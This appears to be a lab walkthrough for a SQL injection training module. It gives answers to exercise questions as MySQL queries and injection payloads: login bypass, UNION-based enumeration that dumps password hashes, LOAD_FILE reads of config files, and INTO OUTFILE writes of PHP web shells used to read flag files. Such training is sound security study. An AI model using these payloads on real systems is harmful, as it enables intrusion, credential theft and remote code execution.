 ## Intro to MySQL

>**Q. Connect to the database using the MySQL client from the command line. Use the 'show databases;' command to list databases in the DBMS. What is the name of the first database?**

mysql -u root -h 94.237.59.206 -P 35744 -p

SHOW DATABASES;

## SQL Statements

>**Q. What is the department number for the 'Development' department?**

SHOW DATABASES;

USE employees;

SHOW TABLES;

SELECT * FROM departments;

## Query Results

>**Q. What is the last name of the employee whose first name starts with "Bar" AND who was hired on 1990-01-01?**

SELECT * FROM employees WHERE first_name LIKE 'Bar%' AND hire_date = '1990-01-01';

## SQL Operators

>**Q. In the 'titles' table, what is the number of records WHERE the employee number is greater than 10000 OR their title does NOT contain 'engineer'?**

SELECT * FROM titles;

SELECT * FROM titles WHERE emp_no > 10000 OR title !='engineer';



## Subverting Query Logic

>**Q. Try to log in as the user 'tom'. What is the flag value shown after you successfully log in?**

tom' OR '1'='1

## Using Comments

>**Q. Login as the user with the id 5 to get the flag.**

user' OR id=5)--    

## Union Clause

>**Q. Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.**

mysql -u root -h 94.237.54.69 -P 59629 -p

SHOW DATABASES;

USE employees;

SHOW TABLES;

SELECT * FROM employees;

SELECT * FROM departments; 

SELECT dept_no FROM departments UNION SELECT emp_no FROM employees;

## Union Injection

>**Q. Use a Union injection to get the result of 'user()'**

' order by 1-- -

es' UNION select 1,2,3,4-- -

' UNION select 1,@@version,3,4-- -

es' UNION select 1,user(),3,4-- -

## Database Enumeration

>**Q. What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?**

cn' UNION select 1, username, password, 4 from users-- -

## Reading Files

>**Q. We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.**

cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -

cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -

## Writing Files

>**Q. Find the flag by using a webshell.**

cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

cn' union select "",'<?php system(ls); ?>', "", "" into outfile '/var/www/html/shell1.php'-- -

cn' union select "",'<?php system("dir /var/www"); ?>', "", "" into outfile '/var/www/html/shell1.php'-- -

cn' union select "",'<?php system("cat /var/www/flag.txt"); ?>', "", "" into outfile '/var/www/html/shell10.php'-- -

## Skills Assessment - SQL Injection Fundamentals

>**Q. Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.**

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master

```sql

' or 1=1 limit 1 -- -+

cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -

cn' union select 1,2,'file written successfully!',3,4 into outfile '/var/www/html/dashboard/proof.txt'-- -

cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

cn' union select "","",'<?php system(ls); ?>', "", "" into outfile '/var/www/html/dashboard/shell1.php'-- -

cn' union select "","",'<?php system("dir /"); ?>', "", "" into outfile '/var/www/html/dashboard/shell6.php'-- -

cn' union select "","",'<?php system("cat /flag_....txt"); ?>', "", "" into outfile '/var/www/html/dashboard/shell8.php'-- -
```
